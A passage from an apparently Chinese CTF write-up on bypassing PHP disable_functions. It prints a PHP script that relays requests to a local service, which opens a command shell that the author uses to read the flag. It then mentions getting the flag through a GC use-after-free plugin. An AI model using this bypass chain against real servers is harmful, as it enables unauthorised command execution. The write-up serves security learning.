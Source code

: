 ```php
$errstr = '';
$timeout = 30;
$url = "/index.php";

if (!empty($_SERVER['QUERY_STRING'])){
    $url .= "?".$_SERVER['QUERY_STRING'];
};

$fp = fsockopen($host, $port, $errno, $errstr, $timeout);
if(!$fp){
    return false;
}

$method = "GET";
$post_data = "";
if($_SERVER['REQUEST_METHOD']=='POST') {
    $method = "POST";
    $post_data = file_get_contents('php://input');
}

$out = $method." ".$url." HTTP/1.1\r\n";
$out .= "Host: ".$host.":".$port."\r\n";
if (!empty($_SERVER['CONTENT_TYPE'])) {
    $out .= "Content-Type: ".$_SERVER['CONTENT_TYPE']."\r\n";
}
$out .= "Content-length:".strlen($post_data)."\r\n";

$out .= implode("\r\n",$headers);
$out .= "\r\n\r\n";
$out .= "".$post_data;

fputs($fp, $out);

$response = '';
while($row=fread($fp, 4096)){
    $response .= $row;
}
fclose($fp);
$pos = strpos($response, "\r\n\r\n");
$response = substr($response, $pos+4);
echo $response;

```

然后连接这个shell就可以执行命令了。最后在命令行里面`tac /flag`就可以查看flag了。

### 1.5 GC UAF

> 理论上PHP本地代码执行漏洞都可以用来 Bypass disable_function, 比如 GC UAF
>
> UAF: use after free。
>
> 我自己不会构造EXP，所以我直接**使用插件**，然后选择GC UAF，然后直接得到flag。
